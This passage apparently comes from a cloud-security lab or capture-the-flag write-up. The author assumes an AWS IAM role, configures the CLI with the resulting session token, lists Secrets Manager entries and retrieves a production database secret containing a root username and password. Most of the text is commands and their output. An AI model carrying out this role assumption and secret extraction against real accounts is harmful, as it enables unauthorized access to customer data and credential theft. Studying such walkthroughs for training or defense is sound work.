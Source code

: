 And found it!

The next thing I did was find the secrets stored in the Secret Manager. To do so, first I had to assume the `BackendDev` role.

```sh
> aws sts assume-role --role-arn arn:aws:iam::794929857501:role/BackendDev --role-session-name MySession
```

This would give the access and secret keys, along with the session token. First, I configured aws cli with the access keys.

```sh
aws configure
```

Then I configured the session token.

```sh
aws configure set aws_session_token "<session-token>"
```

Doing so, I assumed the `BackendDev` role, which I confirmed using the `get-caller-identity` command.

Now I used the `ListSecrets` action to find the secrets stored in Secrets Manager.

```sh
> aws secretsmanager list-secrets
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf",
            "Name": "prod/Customers",
            "Description": "Access to the MySQL prod database containing customer data",
            "LastChangedDate": "2023-09-29T08:37:58.584000-04:00",
            "LastAccessedDate": "2025-05-26T20:00:00-04:00",
            "Tags": [],
            "SecretVersionsToStages": {
                "bf175f57-7e29-4fd1-881f-76e78fdd7320": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2023-09-29T08:37:58.328000-04:00"
        }
    ]
}
```

I could also retrieve the secrets. I found the MariaDB username and password stored in the secrets!

```sh
> aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf
{
    "ARN": "arn:aws:secretsmanager:us-east-1:794929857501:secret:prod/Customers-QUhpZf",
    "Name": "prod/Customers",
    "VersionId": "bf175f57-7e29-4fd1-881f-76e78fdd7320",
    "SecretString": "{\"username\":\"root\",\"password\":\"$DB$Admin12345\",\"engine\":\"mariadb\",\"host\":\"10.10.14.15\",\"port\":\"3306\",\"dbname\":\"customers\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2023-09-29T08:37:58.579000-04:00"
}
```
